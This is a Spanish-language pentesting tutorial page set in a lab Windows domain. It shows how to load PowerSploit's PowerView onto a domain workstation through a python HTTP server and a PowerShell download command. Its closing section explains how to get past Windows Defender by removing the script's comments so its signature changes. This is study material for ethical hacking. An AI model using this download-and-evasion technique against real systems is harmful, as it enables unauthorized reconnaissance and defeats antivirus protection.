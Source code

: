 ```yaml
---
icon: binoculars
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

En este caso vamos a ver una herramienta bastante famosa para `hacking` a parte de otras en entornos de `Windows`.

Lo primero que vamos hacer es configurar una `GPO` que aplique a los diferentes equipos dentro de nuestro `DC`.

Esto lo vamos hacer ya que en los diferentes equipos que estan dentro del dominio del `DC` no puede ejecutarse scripts de `PowerShell` por defecto como medida de seguirdad, pero en algunos casos los `Administradores` necesitan habilitar esta opcion para hacer algunos cambios en los diferentes equipos y esto se hace mediante una regla de `GPO` para que se aplique a los equipos que queramos a la vez y no tengamos que ir uno por uno.

Por lo que vamos a irnos en el `DC` al panel de `Servidor del Administrador` -> `Herramientas` -> `Administracion de directivas de grupo` -> aqui vamos a crear una `GPO` a nivel de dominio que solo afecte a nuestro dominio click derecho en `corp.local` -> `Crear un GPO en este dominio y vincularlo aqui...` -> se llamara `Script Execution Policy` -> `Aceptar` -> click derecho en el `Script Execution Policy` -> `Editar` -> como vamos a crear una `GPO` que va a estar a nivel de equipo nos iremos a `Configuracion del Equipo` -> `Directivas` -> `Plantillas administrativas` -> `Componentes de Windows` -> `Windows PoweShell` -> pulsamos doble click en `Activar la ejecuccion de scripts` -> marcamos `Habilitada` -> seleccionamos en `Directivas de ejecuccion` el `Permitir Scripts locales y scripts remotos firmados` -> `Aplicar` -> `Aceptar`.

Con esto ya estaria aplicado correctamente esta `politica`/`GPO`, ahora tendremos que reiniciar los equipos del dominio que en mi caso son 2 y se aplicaran las politicas correctamente.

### Instalación de PowerView

De mientras vamos instalar `PowerView` en nuestro `kali`.

Vamos a suponer que para la auditoria nos han proporcionado credenciales de un usuario del dominio para conectarnos de forma remota, pero sin privilegios de administrador.

En el siguiente link vamos a ver un `suit/conjunto` de herramientas para todas las fases de un `pentest` de un ejercicio de seguridad o de `hacking etico` para normalmente realizar recopilacion de informacion, explotacion, analisis de vulnerabilidades, etc... Sobre equipos de `Microsoft` todas las cosas que hace estan implementadas en `PowerShell` por lo que es muy util para nosotros.

URL = [GitHub PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

Vamos a irnos al modulo de `recon` (Reconocimiento) -> entraremos en `PowerView.ps1` en el script.

Una vez que estemos aqui dentro:

[Script PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Lo copiaremos entero y haremos lo siguiente:

```shell
nano PowerView.ps1

#Dentro del nano

<PEGAR_SCRIPT_POWERVIEW>
```

Lo guardamos y ya lo tendriamos listo en nuestro `kali`.

Vamos a probar 2 formas de enumerar un sistema `Windows` tanto con `PowerView` de forma automatizada, como de forma manual sin `PwerView` ya que en algunos casos esto peude ser detectado por antivirus o herramientas de seguridad.

Imaginemos que nos propocionan la maquina `WS01` para realizar nuestras pruebas de pentesting, vamos a probar de primeras el `PowerView` en dicha maquina de la siguiente forma:

### Transferencia de archivo .ps1 a maquina windows

Antes tendremos que realizar una pequeña configuracion ya que al reiniciar o apagar el equipo se desactiva, tendremos que darle click derecho en el `adaptador de red` -> `Ethernet` -> `Configuracion de uso compartido avanzado` -> y activar las 2 opciones `Activar la deteccion de redes` y `Activar el uso compartido de archivos e impresoras` -> `Guardar cambios` pedira credenciales de administrador, las metemos y listo.

<figure><img src="../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Con esto ya nos podremos pasar el archivo `.ps1` a la maquina `Windows` todo esto lo podremos hacer ya que tenemos acceso a dicha maquina.

Haremos el mismo proceso pero para con el `WS02`, por lo que si hacemos en un `PwerShell` lo siguiente:

```powershell
ping WS02
```

Tiene que dar `ping` y vicebersa.

Ahora nos vamos a crear en nuestro `kali` un servidor de `python3` en la misma carpeta del archivo `PowerView.ps1` para pasarnos el archivo de forma facil y sencilla, ya profundizaremos en tecnicas de `PostExplotacion` para este tipo de cosas, pero en este caso lo haremos de forma sencilla.

```shell
python3 -m http.server 80
```

Y en la maquina `Windows` buscaremos la siguiente direccion `URL` en un navegador web:

```
URL = http://<IP>/PowerView.ps1
```

Si le damos a `ENTER` veremos que se nos descarga el archivo.

O tambien lo podremos hacer desde un `PowerShell` de la siguiente forma:

```powershell
cd .\Desktop
(New-Object System.NET.WebClient).DownloadFile("http://<IP>/PowerView.ps1", "PowerView.ps1")
```

Una vez que ya tengamos el archivo en nuestro escritorio de `WS01` haremos lo siguiente.

### Prueba de forma automatica PoweView.ps1

Ahora para lanzar este script lo hariamos de la siguiente forma en un `PwerShell` del equipo `WS01`:

```powershell
. .\PowerView.ps1
```

Info:

```
. : No se puede cargar el archivo C:\Users\empleado1\Desktop\PowerView.ps1. El archivo C:\Users\empleado1\Desktop\PowerView.ps1 no está firmado
digitalmente. No se puede ejecutar este script en el sistema actual. Para obtener más información acerca de la ejecución de scripts y la configuración de la
directiva de ejecución, consulta about_Execution_Policies en https:/go.microsoft.com/fwlink/?LinkID=135170.
En línea: 1 Carácter: 3
+ . .\PowerView.ps1
+   ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

Nos da un error de que puede contener archivos maliciosos y no lo ejecuta, ya que `Windows Defender` tiene guardado el `hash` de dicho fichero ya que se utiliza mucho para auditorias o practicas de `hacking etico` por lo que lo bloquea.

### Bypass Windows Defender PowerView

Lo que tendremos que hacer sera eliminar todos los comentarios del script para que no tenga esa `"firma"` y que el `hash` con el que esta identificando el `Windows Defender` no sea el mismo, por lo que lo va a tomar como un archivo legitimo, nos iremos al `kali` y pondremos lo siguiente:

```shell
sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

Ahora una vez que ya hayamos eliminado todos los comentarios con este comando, nos lo volveremos a pasar al `WS01` como hicimos anteriormente, una vez que ya lo tengamos en el equipo, ejecutaremos el mismo comando de antes de `PowerShell`:

```powershell
. .\new_powerview.ps1
```

Con esto no nos aparecera nada por lo que lo ejecutamos correctamente y ya podremos utilizar `PowerView` en este equipo.
